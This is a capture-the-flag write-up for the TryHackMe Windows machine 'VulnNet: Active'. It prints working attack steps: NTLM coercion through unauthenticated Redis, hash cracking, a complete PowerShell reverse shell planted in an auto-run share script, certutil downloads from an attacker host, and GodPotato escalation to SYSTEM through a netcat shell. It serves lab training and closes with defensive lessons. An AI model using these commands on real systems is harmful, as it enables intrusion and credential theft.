

# VulnNet: Active TryHackMe Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | VulnNet: Active |
| **Platform** | TryHackMe |
| **OS** | Windows Server 2019 |
| **Difficulty** | Medium |
| **Domain** | vulnnet.local |
| **DC** | VULNNET-BC3TCK1 |

---

## Enumeration

### RustScan + Nmap

```bash
rustscan -a 10.49.163.246 -u 5000 --accessible -- -sV -Pn -v -n
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49666-49702/tcp open msrpc   Microsoft Windows RPC
```

One port immediately stands out **6379 (Redis)**. Notably absent are LDAP (389/636), WinRM (5985), and RDP (3389). This shapes the entire attack surface no LDAP means no Kerberoasting or AS-REP from the outside, and no WinRM means the standard shell path isn't available directly. Redis is the primary entry point.

```bash
nxc smb 10.49.163.246
# Windows 10 / Server 2019 Build 17763
# domain: vulnnet.local
# Null Auth: True
```

### Redis Enumeration

```bash
redis-cli -h 10.49.163.246
```

No authentication required Redis is wide open:

```
10.49.163.246:6379> ping
PONG

10.49.163.246:6379> info
redis_version:2.8.2402
os:Windows
process_id:3216
config_file:

10.49.163.246:6379> CONFIG GET dir
1) "dir"
2) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"

10.49.163.246:6379> KEYS *
(empty array)
```

Key findings:
- **No password** completely unauthenticated access
- **Windows** and running as `enterprise-security` based on the working directory path
- **No keys in the keyspace** no stored data to leak, but that's not the interesting part here

The working directory `C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402` immediately tells us the OS user context that Redis is running under. This becomes critical for what comes next.

---

## Shortcut: Redis Lua Eval > Direct File Read

Before going through the full exploitation chain, there's a quick trick worth documenting. Redis 2.8 supports Lua scripting via `EVAL`. The `dofile()` Lua function reads a local file and if the file content happens to look like something syntactically invalid to Lua, the error message leaks the content:

```
10.48.147.0:6379> eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
(error) ERR Error running script: @user_script:1:
C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near '3eb176aee96432REDACTEDbc93580b291e'
```

**User flag: `THM{3eb176aee96432REDACTEDbc93580b291e}`**

That's the shortcut. But we still need a proper shell and the system flag so let's walk through the full route.

---

## The Full Route NTLMv2 Capture via Redis UNC Coercion

The technique here is **Redis Unauthorized Access > NTLM Hash Coercion via UNC Path**, sometimes called **Redis SSRF to NTLM coercion**.

Redis has a `CONFIG SET dir` command that changes its working directory. When you point this to a UNC path (e.g., `//ATTACKER_IP/share`), Windows automatically initiates an SMB connection to that path to resolve it and in doing so, sends the service account's **NTLMv2 challenge-response** as part of the SMB authentication handshake. This is captured by Responder.

So the components:
- **Coercion mechanism**: `CONFIG SET dir //ATTACKER_IP/share` forcing Redis (and thus Windows) to authenticate to a path we control
- **Capture tool**: Responder intercepts the SMB connection and extracts the NTLMv2 hash
- **What gets captured**: `NTLMv2-SSP` (Security Support Provider) hash

The term "coerced authentication" is accurate we're coercing the server to authenticate to us without any user interaction. This is the same principle behind tools like PetitPotam and PrinterBug, just triggered via Redis instead of RPC.

### Setting Up Responder

```bash
sudo responder -I tun0 -v
```

Responder spins up a fake SMB server on our tun0 interface, ready to capture any incoming NTLMv2 authentication attempts.

### Triggering the Coercion

```
10.49.163.246:6379> CONFIG SET dir //192.168.134.255/share
(error) ERR Changing directory: Permission denied
```



The error `Permission denied` comes from Redis failing to actually change to the UNC directory but the important thing is that **before** returning that error, Windows already initiated the SMB connection to our fake share, and Responder caught the authentication:

```
[SMB] NTLMv2-SSP Client   : 10.49.163.246
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:4ec2a697a89fbd6e:9550E4A2348055E2EE685DCE507F9741:0101000...
```

### Cracking the Hash

```bash
hashcat hash.txt /usr/share/wordlists/rockyou.txt
```

Hashcat auto-detects mode 5600 (NetNTLMv2) and cracks it in 6 seconds:

```
ENTERPRISE-SECURITY::VULNNET:...:sand_0873959498

Status: Cracked
Hash.Mode: 5600 (NetNTLMv2)
Time.Started: Mon Oct 19 17:42:44 2026 (6 secs)
```

**enterprise-security : sand_0873959498**

---

## Post-Credential Enumeration

### LDAP Dead End

With valid credentials, the natural next step is Kerberoasting and AS-REP roasting:

```bash
impacket-GetNPUsers vulnnet.local/enterprise-security:sand_0873959498 \
  -dc-ip 10.48.147.0 -request
# Connection to LDAP port hangs > KeyboardInterrupt
```

LDAP (port 389) isn't open on this machine confirmed by the nmap results. AS-REP roasting, Kerberoasting, BloodHound collection, and any other LDAP-dependent technique are all dead ends here. We skip straight to SMB.

### Domain User Enumeration

```bash
impacket-samrdump vulnnet.local/enterprise-security:'sand_0873959498'@10.48.147.0
```

```
Found user: Administrator,        uid = 500
Found user: enterprise-security,  uid = 1103
Found user: jack-goldenhand,      uid = 1104
Found user: tony-skid,            uid = 1105
```

Four users in the domain. `enterprise-security` is the one we have credentials for.

### SMB Authenticated Enterprise-Share

```bash
nxc smb 10.48.147.0 -u 'enterprise-security' -p 'sand_0873959498' --shares
```

```
Share              Permissions   Remark
-----              -----------   ------
ADMIN$                           Remote Admin
C$                               Default share
Enterprise-Share   READ,WRITE    ← non-standard, we have WRITE
IPC$               READ
NETLOGON           READ
SYSVOL             READ
```

`Enterprise-Share` is non-standard and we have **READ and WRITE** access that combination is always worth investigating immediately.

```bash
smbclient //10.48.147.0/Enterprise-Share \
  -U 'vulnnet.local/enterprise-security%sand_0873959498'

smb: \> dir
PurgeIrrelevantData_1826.ps1    A    69    Wed Feb 24 07:33:18 2021

smb: \> get PurgeIrrelevantData_1826.ps1
```

A single PowerShell script made by this lab. so i download the script and change it into a reverse shell for windows.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.134.255',9999);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()};
$client.Close()
```

## Initial Shell Overwriting PurgeIrrelevantData_1826.ps1

```bash
# Edit the script locally: change 192.168.134.255:9999 to our tun0 IP and port
# Then re-upload
smbclient //10.48.172.72/Enterprise-Share \
  -U 'vulnnet.local/enterprise-security%sand_0873959498'

smb: \> put PurgeIrrelevantData_1826.ps1
# Upload complete (507 bytes our modified version)
```

Start listener and wait up to 60 seconds for the automation loop to fire:

```bash
nc -lvnp 9999
```

```
connect to [192.168.134.255] from (UNKNOWN) [10.48.172.72] 49739

PS C:\Users\enterprise-security\Downloads> whoami /priv | findstr "Enabled"

SeChangeNotifyPrivilege        Bypass traverse checking      Enabled
SeImpersonatePrivilege         Impersonate a client after authentication  Enabled
SeCreateGlobalPrivilege        Create global objects         Enabled
```

Shell as `enterprise-security`. And **SeImpersonatePrivilege is enabled** that's the path to SYSTEM.


### Confirming the Automation

After getting a shell (next section), i discover why the script runs automatically:

```
C:\Users\enterprise-security\Downloads> type startup.bat
:home
TIMEOUT /T 30 /NOBREAK
powershell.exe -File C:\Enterprise-Share\PurgeIrrelevantData_1826.ps1
TIMEOUT /T 30
cls
Goto :home
```

`startup.bat` is a persistent loop that executes `PurgeIrrelevantData_1826.ps1` every 60 seconds. It's almost certainly running as a scheduled task or service (NSSM is installed: `nssm-2.24-101-g897c7ad` is in the Downloads folder). Replacing the script file in the share means the next loop iteration will execute our payload.

---

## Privilege Escalation GodPotato via SeImpersonatePrivilege

`SeImpersonatePrivilege` allows a process to impersonate the security context of any user that authenticates to it. The Potato family of attacks (JuicyPotato, RoguePotato, GodPotato etc.) abuse this by coercing `NT AUTHORITY\SYSTEM` into authenticating to a local COM endpoint, then impersonating that token to execute code as SYSTEM. Download > [GodPotato](https://github.com/BeichenDream/GodPotato)

GodPotato works on Windows Server 2019 and doesn't require a specific CLSID like older potato variants. First we need a stable shell the automated script shell is unstable so we transfer nc.exe:

```powershell
PS C:\Users\enterprise-security\Downloads> certutil -urlcache -f http://192.168.134.255:8000/nc.exe C:\Users\enterprise-security\Downloads\nc.exe
# CertUtil: -URLCache command completed successfully.

PS C:\Users\enterprise-security\Downloads> certutil -urlcache -f http://192.168.134.255:8000/GodPotato-NET4.exe C:\Users\enterprise-security\Downloads\GodPotato-NET4.exe
# CertUtil: -URLCache command completed successfully.
```

```powershell
PS C:\Users\enterprise-security\Downloads> .\GodPotato-NET4.exe -cmd "C:\Users\enterprise-security\Downloads\nc.exe 192.168.134.255 7777 -e cmd"
```

```bash
# Listener catches SYSTEM shell
nc -lvnp 7777

C:\Windows\system32> whoami
nt authority\system
```

---

## Root Flag

```
C:\Users\Administrator\Desktop> type system.txt
THM{d540c06459759REDACTED67aa431fc9b}
```

---

## Lessons Learned

**Redis with no authentication is effectively an SSRF-to-NTLM coercion primitive.** Port 6379 open with no password means an attacker can issue `CONFIG SET dir` with a UNC path, forcing Windows to make an outbound SMB connection with the Redis service account's NTLMv2 credentials. This works because Windows resolves UNC paths automatically no user interaction required. Redis should always require authentication (`requirepass`) and should not be exposed to untrusted networks.

**The Lua eval trick leaks file contents via error messages.** `dofile()` in Redis's embedded Lua runtime reads local files. If the content doesn't parse as valid Lua, the interpreter dumps the offending content in the error message. This gave us the user flag without a shell. It can also read web.config, SAM backups, or any file readable by the Redis service account. This is another reason to lock down Redis with auth and run it as a low-privilege account.

**READ+WRITE on a share containing an auto-executed script = code execution.** `Enterprise-Share` had `PurgeIrrelevantData_1826.ps1` being run every 60 seconds by `startup.bat`. Write access to the share meant we could swap the script for our payload and wait for the loop to fire. This kind of scheduled/looped execution is a classic persistence and lateral movement vector any writable share containing scripts should be audited for automated execution.

**SeImpersonatePrivilege + Potato = SYSTEM, always.** This privilege exists for legitimate reasons (IIS, SQL Server service accounts, etc.) but should never be granted to interactive users or exposed to attacker-controlled shells. Once you see `SeImpersonatePrivilege` on a Windows box, the path to SYSTEM is nearly always straightforward via one of the Potato variants.

**When LDAP is unavailable, think about what other channels can give you domain info.** `impacket-samrdump` worked over port 445 to enumerate domain users even without LDAP. NetExec shares enum, SAMR protocol, and RPC-based tools are alternatives when LDAP is filtered or not running.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **rustscan + nmap** | Port scanning |
| **redis-cli** | Redis enumeration, Lua eval file read, UNC coercion |
| **Responder** | NTLMv2-SSP hash capture via fake SMB server |
| **hashcat** | Cracking NTLMv2 hash (mode 5600) |
| **nxc (NetExec)** | SMB credential validation + share enumeration |
| **impacket-samrdump** | Domain user enumeration via SAMR |
| **smbclient** | Accessing Enterprise-Share, uploading malicious script |
| **nc (netcat)** | Reverse shell listener + stable shell transfer |
| **certutil** | File transfer to target (built-in Windows) |
| **GodPotato-NET4** | SeImpersonatePrivilege > SYSTEM on Server 2019 |

**References:**
- [Redis Unauthorized Access HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
- [NTLM Coercion techniques overview](https://www.thehacker.recipes/ad/movement/ntlm/coerce)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [Responder](https://github.com/lgandx/Responder)
